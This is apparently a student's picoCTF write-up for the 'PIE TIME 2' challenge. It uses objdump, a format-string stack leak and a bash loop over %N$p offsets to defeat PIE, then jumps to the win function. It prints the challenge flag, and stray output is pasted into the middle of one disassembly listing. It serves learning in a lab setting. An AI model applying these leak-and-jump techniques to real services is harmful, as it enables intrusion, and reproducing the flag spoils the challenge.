

### PIE TIME 2

this is a [pico ctf](https://picoctf.org/) challenge

#### Description

> Can you try to get the flag? I'm not revealing anything anymore!!
> Additional details will be available after launching your challenge instance.

#### My attempts

This prompted me to look at the PIE TIME 1 to refresh my mind on what kind things it entailed. It was a program that you gave a memroy address so you could jump to the win function.

I tried doing an `objdump -d vuln` to see the memroy addresses of the functions. I found where the scanf happens and wehre the win function is. I also found where the main function is:

```
0000000000001400 <main>:
    1400:	f3 0f 1e fa          	endbr64
    1404:	55                   	push   %rbp
    1405:	48 89 e5             	mov    %rsp,%rbp
    1408:	48 8d 35 9a fe ff ff 	lea    -0x166(%rip),%rsi        # 12a9 <segfault_handler>
    140f:	bf 0b 00 00 00       	mov    $0xb,%edi
    1414:	e8 57 fd ff ff       	call   1170 <signal@plt>
    1419:	48 8b 05 f0 2b 00 00 	mov    0x2bf0(%rip),%rax        # 4010 <stdout@GLIBC_2.2.5>
    1420:	b9 00 00 00 00       	mov    $0x0,%ecx
    1425:	ba 02 00 00 00       	mov    $0x2,%edx
    142a:	be 00 00 00 00       	mov    $0x0,%esi
    142f:	48 89 c7             	mov    %rax,%rdi
    1432:	e8 49 fd ff ff       	call   1180 <setvbuf@plt>
Enter your name:%19$p
0x60076ac59441
 enter the address to jump to, ex => 0x12345: 0x60076ac5936a
You won!
picoCTF{p13_5h0u1dn'7_134k_71356635}
    1437:	b8 00 00 00 00       	mov    $0x0,%eax
    143c:	e8 86 fe ff ff       	call   12c7 <call_functions>
    1441:	b8 00 00 00 00       	mov    $0x0,%eax
    1446:	5d                   	pop    %rbp
    1447:	c3                   	ret
    1448:	0f 1f 84 00 00 00 00 	nopl   0x0(%rax,%rax,1)
    144f:	00

```

There is also a printf vunerability as its not a string lineral from an buffer input. First thing I tried to exploit the printf vunerability is to do a enter a string of `%p`.



I wasnt too sure about c format exploits so I found examples on this [site](https://exploit-notes.hdks.org/exploit/binary-exploitation/method/binary-exploitation-with-format-string/)

```
$ Enter your name:%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
0x558c6abc82a10xfbad22880x7fff0e5e73d0(nil)0x21001(nil)0x7f852f6917600x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x25702570257025(nil)0xfffbdc94dca48000x7fff0e5e74300x558c447c54410x10x7f852f4e524a0x7fff0e5e75300x558c447c54000x1447c40400x7fff0e5e75480x7fff0e5e75480xee96304b47191866(nil)0x7fff0e5e7558(nil)0x7f852f6f2020
```

I looking for a hex value that ends with 400, since the main function is at `0000000000001400`.

```python
> > > for i in a.split("0x"):
> > > ... print(i)
> > > ...

558c6abc82a1
fbad2288
7fff0e5e73d0
21001
7f852f691760
7025702570257025
7025702570257025
7025702570257025
7025702570257025
7025702570257025
7025702570257025
7025702570257025
25702570257025
fffbdc94dca4800
7fff0e5e7430
558c447c5441
1
7f852f4e524a
7fff0e5e7530
558c447c5400
1447c4040
7fff0e5e7548
7fff0e5e7548
ee96304b47191866
7fff0e5e7558
7f852f6f2020
```

In the objdump I found `000000000000136a <win>:` and `1340:	e8 5b fe ff ff       	call   11a0 <__isoc99_scanf@plt>`. I thought `7fff0e5e73d0` to be my current pointer address but I was wrong.
this would mean that there is a 2A difference from 136A to 1340. so if I did 2a + 7fff0e5e73d0, I might jump to the win subroutine.

None of this worked. When I entered any of the addresses I kept getting the: `Segfault Occurred, incorrect address.`.
I realised that the addresses starting with `0x7fff` were not where the program was located.

I tried to write a script to print out different pointers:

```bash
#!/bin/bash

for i in {1..128}; do
    leak=$(echo -e "%$i\$p" | ./vuln | grep -o '0x[0-9a-fA-F]\{3,\}400$')
    if [ -n "$leak" ]; then
        echo "value ($i): $leak"
    fi
done
```

this printed:

```
value (17): 0x9c36dda991ec400
value (23): 0x5640a8443400
value (42): 0x55bbb4a89400
```

This printed out the frist 128 pointers on the stack which is essetially what `%p%p%p..` did, then only selects the values that end with 400.
Those 2 smaller numbers ends with 400 so I have a suspision that it might be the address of the main function. I am going to try the 23rd and the 42th

`%23$p`,`%42$p`
both seem to loop back to the main.

```
000000000000136a <win>:
    136a:	f3 0f 1e fa          	endbr64
    136e:	55                   	push   %rbp
    136f:	48 89 e5             	mov    %rsp,%rbp
    1372:	48 83 ec 10          	sub    $0x10,%rsp
    1376:	48 8d 3d f6 0c 00 00 	lea    0xcf6(%rip),%rdi        # 2073 <_IO_stdin_used+0x73>
    137d:	e8 8e fd ff ff       	call   1110 <puts@plt>
    1382:	48 8d 35 f3 0c 00 00 	lea    0xcf3(%rip),%rsi        # 207c <_IO_stdin_used+0x7c>
    1389:	48 8d 3d ee 0c 00 00 	lea    0xcee(%rip),%rdi        # 207e <_IO_stdin_used+0x7e>
    1390:	e8 fb fd ff ff       	call   1190 <fopen@plt>
    1395:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
    1399:	48 83 7d f8 00       	cmpq   $0x0,-0x8(%rbp)
    139e:	75 16                	jne    13b6 <win+0x4c>
    13a0:	48 8d 3d e0 0c 00 00 	lea    0xce0(%rip),%rdi        # 2087 <_IO_stdin_used+0x87>
    13a7:	e8 64 fd ff ff       	call   1110 <puts@plt>
    13ac:	bf 00 00 00 00       	mov    $0x0,%edi
    13b1:	e8 fa fd ff ff       	call   11b0 <exit@plt>
    13b6:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
    13ba:	48 89 c7             	mov    %rax,%rdi
    13bd:	e8 8e fd ff ff       	call   1150 <fgetc@plt>
    13c2:	88 45 f7             	mov    %al,-0x9(%rbp)
    13c5:	eb 1a                	jmp    13e1 <win+0x77>
    13c7:	0f be 45 f7          	movsbl -0x9(%rbp),%eax
    13cb:	89 c7                	mov    %eax,%edi
    13cd:	e8 2e fd ff ff       	call   1100 <putchar@plt>
    13d2:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
    13d6:	48 89 c7             	mov    %rax,%rdi
    13d9:	e8 72 fd ff ff       	call   1150 <fgetc@plt>
    13de:	88 45 f7             	mov    %al,-0x9(%rbp)
    13e1:	80 7d f7 ff          	cmpb   $0xff,-0x9(%rbp)
    13e5:	75 e0                	jne    13c7 <win+0x5d>
    13e7:	bf 0a 00 00 00       	mov    $0xa,%edi
    13ec:	e8 0f fd ff ff       	call   1100 <putchar@plt>
    13f1:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
    13f5:	48 89 c7             	mov    %rax,%rdi
    13f8:	e8 23 fd ff ff       	call   1120 <fclose@plt>
    13fd:	90                   	nop
    13fe:	c9                   	leave
    13ff:	c3                   	ret
```

win is at 136a so to jump to the win function I will replace the last 3 numbers of the address to 36a.

```
Enter your name:%23$p
0x55a13c389400
 enter the address to jump to, ex => 0x12345: 0x55a13c38936a
You won!
Cannot open file.
```

yay! I have completed it locally now I just need to netcat into the server and try it.

`nc rescued-float.picoctf.net 61043`

now to do the maths:
`400 - 36a = 96`

the 23rd leaked address on the server is 0x7fff2d900528.

I tried 0x7fff2d900492 but this didnt work. the 7fff doesnt look like the programs memory address.
I modified my script and checked for numbers with 4 in the 3 last digit:

#### My solution

```bash
#!/bin/bash

for i in {1..128}; do
    leak=$(echo -e "%$i\$p" | ./vuln | grep -o '0x[0-9a-fA-F]\{3,\}4[0-9a-fA-F]\{2,\}$')
    if [ -n "$leak" ]; then
        echo "value ($i): $leak"
    fi
done
```

i got back:

```
value (1): 0xa702431
value (3): 0xa702433
value (8): 0xa70243825
value (10): 0x7fd7cb4a45e0
value (11): 0x7fa4a1785299
value (13): 0x7fe4ff0c3079
value (18): 0x7ffe89678430
value (19): 0x55d3dcb5b441
value (23): 0x55d3e5466400
value (25): 0x7ffe5e47ba18
value (27): 0xdf4cd488fdd47754
value (32): 0x56583d90b436aa59
value (33): 0x5cb55679c79cf4f8
value (38): 0x7ffe453d6878
value (41): 0x7faf641f8305
value (42): 0x55ef09996400
value (47): 0x559dacd421c0
value (58): 0x7ffd46d78331
value (60): 0x7ffd1458e3a3
value (61): 0x7ffd3bfa43b6
value (62): 0x7ffe0f64d3ca
value (65): 0x7ffc215bf404
value (66): 0x7ffc35b61430
value (67): 0x7ffe632b3442
value (68): 0x7fff9ff8546b
value (69): 0x7ffcdc26247f
value (70): 0x7ffcba872495
value (71): 0x7ffe20f1d4b1
value (72): 0x7fffddac14c9
value (73): 0x7ffc189fe4d5
value (74): 0x7ffd3b5d54ef
value (83): 0x7ffc46b7acb6
value (84): 0x7fffea24ecd0
value (85): 0x7ffd34a3cce1
value (87): 0x7ffea491cd51
value (89): 0x7fff04cc4d7f
value (93): 0x7fff40d2ddd3
value (95): 0x7fff049fade6
value (96): 0x7ffe5349edf1
value (100): 0x7fff0ce24f60
```

value 19 seems to be a valid memory address and when I replace the last 2 numbers of the address with 0's it loops to the main function!

I tried it on the server with the netcat and ...

```
Enter your name:%19$p
0x5d1d8e79d441
 enter the address to jump to, ex => 0x12345: 0x5d1d8e79d400
Enter your name:
 enter the address to jump to, ex => 0x12345:
```

There we go! all I need to do now is subtract (41+96) = d7 from the 19th leaked address and it should print me the flag!

Sure enough! it does!:

```
Enter your name:%19$p
0x60076ac59441
 enter the address to jump to, ex => 0x12345: 0x60076ac5936a
You won!
picoCTF{p13_5h0u1dn'7_134k_71356635}
```

#### Conclusion

In conclusion, I was able to leak the stack adresses of the program because of the `printf` being unsafe with out the `%s` inside it to specify a string in C. Once I found it I was able to deduct the address of one of the functions by using `objdump` to deassemble the C program. Then I put it all together on the server and it returned the flag.
